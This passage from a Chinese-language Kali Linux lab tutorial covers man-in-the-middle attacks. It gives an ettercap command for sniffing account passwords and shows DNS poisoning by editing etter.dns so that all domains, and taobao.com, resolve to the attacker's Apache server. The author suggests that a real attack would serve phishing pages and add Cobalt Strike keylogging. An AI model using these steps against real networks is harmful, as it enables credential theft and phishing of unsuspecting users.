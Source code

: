 可以看到弹出一个窗口，这个便是显示图片的地方，当目标浏览图片时(https加密后捕获不到)，我们便可以捕获（当前kali浏览图片一样会被捕获）.

#### 2.4 账号密码嗅探操作

使用 `ettercap` ，kali 自带。

```bash
ettercap -Tq -i eth0    //这条命令表示监控eth0网卡的流量

# -T 文本模式运行  -q 安静模式  -i 网卡，后接网卡名
```

## 三、kali攻击之dns投毒

**Ettercap是一款实现“中间人攻击”的多功能工具，具有\**嗅探\**实时连接、内容过滤以及其它非常有趣的功能。**

详情见：https://www.freebuf.com/sectool/125104.html

kali 自带。

可以找到软件双击打开，也可以输入命令 `ettercap -G`打开。

#### 3.1 实验环境

被攻击机： win2008    192.168.43.48

攻击机：     kali          192.168.43.107 

网关： 192.168.43.217

#### 3.2 开始操作

3.2.1 找到 ettercap 文件

```
/etc/ettercap/etter.dns
```

找到vim:ts=8:noexpandtab，在下方加入`\*  A  192.168.43.147`（ \* 表示所有链接访问都转发到192.168.43.147）

[![rG0sPJ.md.png](https://s3.ax1x.com/2020/12/17/rG0sPJ.md.png)](https://imgchr.com/i/rG0sPJ)

(上图写错了，应该是 107)

启动 apache 服务，并修改网页。

```bash
/etc/init.d/apache2 start
```

[![rGBbY4.png](https://s3.ax1x.com/2020/12/17/rGBbY4.png)](https://imgchr.com/i/rGBbY4)

就简单搞一下，真实中可以搞钓鱼页面。

又想了一下可以配合cs 钓鱼键盘记录来使用。

那么重新开始操作。

修改 dns 配置。

```bash
# vim:ts=8:noexpandtab
www.taobao.com A 192.168.43.107
```
